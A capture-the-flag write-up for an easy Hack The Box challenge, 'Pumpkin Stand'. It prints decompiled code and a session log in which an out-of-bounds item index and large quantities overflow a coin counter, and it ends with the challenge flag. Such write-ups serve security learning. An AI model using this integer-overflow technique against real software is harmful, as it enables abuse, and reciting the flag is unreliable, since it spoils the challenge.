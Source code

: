 # Pumpkin Stand

## The Problem

Rating: Easy

Flavor Text:
```
This time of the year, we host our big festival and the one who craves the pumpkin faster and make it as scary as possible, gets an amazing prize! Be fast and try to crave this hard pumpkin!
```

Attachments : [pwn_pumpkin_stand.zip](./pwn_pumpkin_stand.zip)

## Solution


break open the provided file:

```
00000b9e  {
00000baf      void* fsbase;
00000baf      int64_t var_10 = *(int64_t*)((char*)fsbase + 0x28);
00000bb5      setup();
00000bba      banner();
00000bbf      int16_t var_54 = 0;
00000bc5      int16_t var_52 = 0;
00000bcb      while (true)
00000bcb      {
00000bcb          menu();
00000be3          __isoc99_scanf(&data_132b, &var_54);
00000bf4          printf("\nHow many do you want?\n\n>> ");
00000c0c          __isoc99_scanf(&data_132b, &var_52);
00000c18          if (var_52 <= 0)
00000c15          {
00000c2d              printf("%s\n[-] You cannot buy less than…", "\x1b[1;31m");
00000c1a          }
00000c62          else
00000c62          {
00000c62              uint64_t rcx_2 = ((uint64_t)(((uint32_t)pumpcoins) - (((uint32_t)var_52) * *(int32_t*)((((int64_t)var_54) << 2) + &values))));
00000c66              pumpcoins = rcx_2;
00000c77              if (pumpcoins < 0)
00000c74              {
00000c9d                  printf("\nCurrent pumpcoins: [%s%d%s]\n\n", "\x1b[1;33m", ((uint64_t)((int32_t)pumpcoins)), "\x1b[1;34m");
00000cbc                  printf("%s\n[-] Not enough pumpcoins for…", "\x1b[1;31m", "\x1b[1;34m");
00000ca2              }
00000cce              else if (var_54 == 1)
00000cca              {
00000cf4                  printf("\nCurrent pumpcoins: [%s%d%s]\n\n", "\x1b[1;33m", ((uint64_t)((int32_t)pumpcoins)), "\x1b[1;34m");
00000d00                  puts("\nGood luck crafting this huge p…");
00000cf9              }
00000d15              else
00000d15              {
00000d15                  if (pumpcoins > 0x270e)
00000d11                  {
00000d15                      break;
00000d15                  }
00000dd7                  printf("%s\n[-] Not enough pumpcoins for…", "\x1b[1;31m", "\x1b[1;34m", rcx_2);
00000dd7              }
00000dd7          }
00000dd7      }
00000d1b      int64_t var_48 = 0;
00000d23      int64_t var_40 = 0;
00000d2b      int64_t var_38 = 0;
00000d33      int64_t var_30 = 0;
00000d3b      int64_t var_28 = 0;
00000d43      int64_t var_20 = 0;
00000d59      FILE* rax_25 = fopen("./flag.txt", &data_13e6);
00000d67      if (rax_25 != 0)
00000d62      {
00000d8f          fgets(&var_48, 0x30, rax_25);
00000dae          printf("%s\nCongratulations, here is the…", "\x1b[1;32m", &var_48);
00000db8          exit(0x16);
00000db8          /* no return */
00000db8      }
00000d70      puts("Error opening flag.txt, please c…");
00000d7a      exit(1);
00000d7a      /* no return */
00000d7a  }

```

we need this to fire

FILE* rax_25 = fopen("./flag.txt", &data_13e6);


bit the loop is while(true)

we have options 1 and 2 but the catch one looks for:

00000d15                  if (pumpcoins > 0x270e)
00000d11                  {
00000d15                      break;
00000d15                  }


Current pumpcoins: [1337]

Items: 

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 4

How many do you want?

>> 4

Current pumpcoins: [-6215]


[-] Not enough pumpcoins for this!


Current pumpcoins: [-6215]

Items: 

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 4

How many do you want?

>> 400



## Flag
```
HTB{1nt3g3R_0v3rfl0w_101_0r_0v3R_9000!}

```

## Final Notes
